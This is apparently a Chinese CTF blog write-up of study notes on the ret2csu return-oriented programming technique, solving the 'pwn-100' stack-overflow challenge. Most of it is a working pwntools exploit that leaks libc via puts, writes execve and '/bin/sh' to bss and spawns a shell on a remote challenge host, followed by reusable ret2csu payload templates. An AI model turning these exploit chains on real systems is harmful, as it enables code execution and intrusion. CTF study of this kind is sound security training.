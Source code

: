 ```yaml
---
layout: article
pageview: true
key: 2021-07-21-ret2csu
title: ret2csu学习笔记
author: Ch4rc0al
categories:
  - WriteUps
  - Notes
tags:
  - Pwn	
  - CTF
  - Notes
---
```




最近学习了中级Rop中的`ret2csu`技巧，记录一篇WP来巩固学习

新增了常用`ret2csu`脚本

<!--more-->

## pwn-100

[例题 pwn-100](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4888&page=1)

>     Arch:     amd64-64-little
>     RELRO:    Partial RELRO
>     Stack:    No canary found
>     NX:       NX enabled
>     PIE:      No PIE (0x400000)

```c
int sub_40068E()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  sub_40063D((__int64)v1, 200);
  return puts("bye~");
}
```

此处有栈溢出漏洞，并且可以溢出很大

程序可以调用`puts`和`read`

思路：通过`ret2csu`调用`puts`获取`puts`函数的真实地址，通过`LibcSearcher`拿到基地址，调用`read`向bss段写入`execve`和`/bin/sh\x00`，调用`execve`拿到shell

```
from pwn import *
from LibcSearcher import LibcSearcher
context(os='linux',arch='amd64',log_level='debug')

sh=remote('111.200.241.244',53809)
#sh=process('./pwn100')
elf=ELF('./pwn100')
csu_end=0x40075A
csu_front=0x400740
puts_got=elf.got['puts']
read_got=elf.got['read']
main=0x40068e
bss_base=elf.bss();

def csu(rbx,rbp,r12,r13,r14,r15,last):
    payload='a'*0x40+'bbbbbbbb'
    payload+=p64(csu_end)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload+=p64(csu_front)+'a'*0x38+p64(last)
    sh.send(payload)
    sh.recvuntil('bye~\n')

csu(0,1,puts_got,0,0,puts_got,main)
puts_addr=u64(sh.recv()[:-1].ljust(0x8,'\x00'))


libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')

execve_addr = libc_base + libc.dump('execve')

csu(0,1,read_got,16,bss_base,0,main)

sh.send(p64(execve_addr)+'/bin/sh\x00')

csu(0,1,bss_base,0,0,bss_base+0x8,main)

sh.interactive()
```

## 常用ret2csu脚本

地址需要根据题目添加

### 2.31及以上版本
```python
def csu(call, rdi, rsi, rdx):
    csu_end = 
    csu_front = 
    payload = p64(csu_end)+p64(0)+p64(1)+p64(rdi)+p64(rsi) + \
        p64(rdx)+p64(call)+p64(csu_front)+b'\x00'*0x38
    return payload
```

### 2.31以下版本
```python
def csu(call, rdi, rsi, rdx):
    csu_end = 
    csu_front = 
    payload = p64(csu_end)+p64(0)+p64(1)+p64(call)+p64(rdx) + \
        +p64(rsi)+p64(rdi)+p64(csu_front)+'\x00'*0x38
    return payload
```

